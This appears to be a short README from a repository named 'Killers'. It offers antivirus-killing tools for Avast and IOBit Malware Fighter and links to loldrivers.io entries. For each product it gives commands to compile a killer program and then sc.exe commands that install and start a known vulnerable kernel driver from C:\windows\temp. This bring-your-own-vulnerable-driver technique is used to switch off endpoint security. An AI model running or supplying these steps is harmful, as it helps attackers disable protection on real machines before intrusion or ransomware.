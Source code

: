 # Killers

## Avast

https://www.loldrivers.io/drivers/57fc510a-e649-4599-b83e-8f3605e3d1d9/

```
x86_64-w64-mingw32-gcc -o avast_killer.exe avast_killer.c 
sc.exe create aswArPot.sys binPath= C:\windows\temp\aswArPot.bin type= kernel && sc.exe start aswArPot.sys
```

## IOBit Malware Fighter

https://www.loldrivers.io/drivers/fe2f68e1-e459-4802-9a9a-23bb3c2fd331

```
x86_64-w64-mingw32-gcc -o iobit_malwarefighter_killer.exe iobit_malwarefighter__killer.c 
sc.exe create kEvP64.sy binPath= C:\windows\temp\kEvP64.bin type= kernel && sc.exe start kEvP64.sy
```
